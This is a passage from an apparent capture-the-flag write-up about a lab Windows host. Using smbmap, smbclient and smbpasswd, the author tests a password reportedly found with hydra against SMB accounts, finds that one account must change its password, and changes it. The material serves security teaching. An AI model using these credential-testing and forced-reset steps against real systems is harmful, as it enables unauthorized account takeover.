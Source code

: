 ```

root@kali# smbmap -u tlavel -p Fabricorp01 -H 10.10.10.193
[+] Finding open SMB ports....
[!] Authentication error on 10.10.10.193
[!] Authentication error on 10.10.10.193
root@kali# smbmap -u bhult -p Fabricorp01 -H 10.10.10.193
[+] Finding open SMB ports....
[!] Authentication error on 10.10.10.193
[!] Authentication error on 10.10.10.193

```

Better error messages came back from `smbclient`. When I enter a bad password:

```

root@kali# smbclient -U bhult -L \\\\10.10.10.193
Enter WORKGROUP\bhult's password: 
session setup failed: NT_STATUS_LOGON_FAILURE

```

But when I enter the password that `hydra` found:

```

root@kali# smbclient -U bhult -L \\\\10.10.10.193
Enter WORKGROUP\bhult's password: 
session setup failed: NT_STATUS_PASSWORD_MUST_CHANGE

```

### Change Password

It looks like I have valid creds, but the machine is set to require a password change. To make this change, I can use `smbpasswd` from Kali. I’ll run it with `-r [ip]`, give it the old password, then a new one. If I pick a pass that doesn’t meet the password policy, I’ll see an error like:

```

machine 10.10.10.193 rejected the password change: Error was : When trying to update a password, this status indicates that some password update rule has been violated. For example, the password might not meet length criteria..

```

When I change it to `0xdf!!!!`, it works:

```

root@kali# smbpasswd -r 10.10.10.193 bhult
Old SMB password:
New SMB password:
Retype new SMB password:                                   
Password changed for user bhult on 10.10.10.193.

```
